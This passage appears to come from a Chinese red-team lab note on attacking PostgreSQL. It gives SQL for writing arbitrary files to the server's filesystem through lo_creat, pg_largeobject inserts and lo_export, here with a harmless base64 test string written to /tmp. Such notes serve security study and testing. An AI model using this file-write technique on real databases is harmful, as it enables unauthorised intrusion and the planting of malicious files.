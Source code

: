 ![](../../../../../assets/img/Security/RedTeam/软件服务安全/实验/PostgreSQL/36.png)

![](../../../../../assets/img/Security/RedTeam/软件服务安全/实验/PostgreSQL/37.png)

**方法3 lo_export + pg_largeobject**

```sql
-- 记下生成的lo_creat ID
select lo_creat(-1);

-- 替换 24577 为生成的lo_creat ID
INSERT INTO pg_largeobject(loid, pageno, data) values (24577, 0, decode('ZmZmZmZmZmYweA==', 'base64'));
select lo_export(24577, '/tmp/success.txt');
```

![](../../../../../assets/img/Security/RedTeam/软件服务安全/实验/PostgreSQL/31.png)
